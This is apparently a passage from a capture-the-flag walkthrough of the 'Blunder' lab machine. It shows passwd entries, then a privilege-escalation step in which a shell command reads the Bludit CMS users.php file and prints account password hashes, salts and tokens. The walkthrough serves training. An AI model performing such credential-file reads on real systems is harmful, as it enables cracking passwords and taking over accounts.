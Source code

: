 ```
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
```

`user.txt` is in hugo's home folder and shuan maybe be used for EoP.

## Privilege Escalation of Machine : from www-data to hugo

Let's see in the database of the app:

```php
$ www-data@blunder:/var/www/bludit-3.9.2$ cat bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
```
